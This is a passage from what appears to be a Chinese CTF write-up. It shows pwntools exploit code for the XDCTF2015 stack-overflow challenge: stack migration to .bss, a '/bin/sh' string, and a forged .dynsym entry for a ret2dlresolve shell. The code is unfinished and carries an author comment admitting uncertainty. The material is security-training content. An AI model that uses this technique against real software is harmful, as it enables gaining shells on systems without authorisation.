 


最终代码：

```python
from pwn import *

#这里是获取elf的相关信息
elf = ELF('main')
p = process('./main')
rop = ROP('./main') #方便实现ROP链

offset = 112  #这是之前得到的溢出所需的字节
bss_addr = elf.bss() #获取.bss段首地址

p.recvuntil(b'Welcome to XDCTF2015~!\n')

"""1、栈迁移到.bss段"""
# 设置新栈的大小为0x800
stack_size = 0x800
# 设置栈的首地址
base_stage = bss_addr + stack_size
# 因为.bss段的特殊，所以由高向低写（也可能是错的）


# 填充缓冲区
rop.raw(b'a' * offset)
# 向新栈写入100字节
# rop.read()可以自动完成刚刚说的read函数，函数参数，返回地址的栈部署
rop.read(0, base_stage, 100)

# 开始栈迁移
# 即设置 esp = base_stage
# rop.migrate(base_stage)会利用leave_ret自动完成部署迁移工作
rop.migrate(base_stage)
p.sendline(rop.chain())


"""2、"/bin/sh"字符串"""
rop = ROP('./main')
sh = b"/bin/sh\x00"

"""3、获取三大神器"""
#获取plt[0]地址
plt0 = elf.get_section_by_name('.plt').header.sh_addr
#获取.rel.plt地址
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
#获取.dynsym的基地址
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
#获取.dynstr的基地址
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

"""4、部署fake .dynsym结构体"""
#在base_stage + 32的地方开始部署.dynsym结构体
fake_sym_addr = base_stage + 32
#对齐
Align = 0x10 - ((fake_sym_addr - dynsym) & 0xf )
fake_sym_addr = fake_sym_addr + Align
#计算.dynsym结构体下标
index_dynsym = int((fake_sym_addr - dynsym) / 0x10)

#计算.dynstr偏移准备更改.dynsym成员变量st_name
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name,0,0,0x12]) #伪造的.dynsym结构体

```

[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"